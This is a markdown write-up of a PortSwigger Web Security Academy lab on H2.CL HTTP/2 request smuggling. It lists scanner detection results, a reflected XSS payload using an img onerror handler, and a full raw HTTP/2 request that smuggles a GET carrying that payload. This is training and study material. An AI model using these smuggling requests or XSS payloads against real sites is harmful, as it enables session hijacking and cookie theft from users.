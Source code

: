 # [Lab: H2.CL request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling)

## Lab

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

## Detected H2.CL

- burpsuite active scan: detected hidden http 2
- burpsuite `HTTP request smuggler` extension: detected `Issue: CL.0 desync: h2CL|GET /favicon.ico`
- smuggler.py: failed

## Detected refected xss

`/post/comment/confirmation?postId="><img%20src=1%20onerror=alert(document.cookie)>`

## Solutions

setting repeater to work with http 2:

![settings.png](./../img/lab-12-settings.png)

H2.CL smuggling:

```http
POST / HTTP/2^M$
Host: 0a1500370309a192c65b9aea00cc004d.web-security-academy.net^M$
Accept-Encoding: gzip, deflate, z3xzplkp72^M$
Accept: */*, text/z3xzplkp72^M$
Accept-Language: en-US;q=0.9,en;q=0.8^M$
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36 z3xzplkp72^M$
X-Connection: close^M$
Cache-Control: max-age=0^M$
Origin: https://z3xzplkp72.com^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 0^M$
^M$
GET /post/comment/confirmation?postId="><img%20src=1%20onerror=alert(document.cookie)> HTTP/1.1^M$
X-YzBqv: 
```
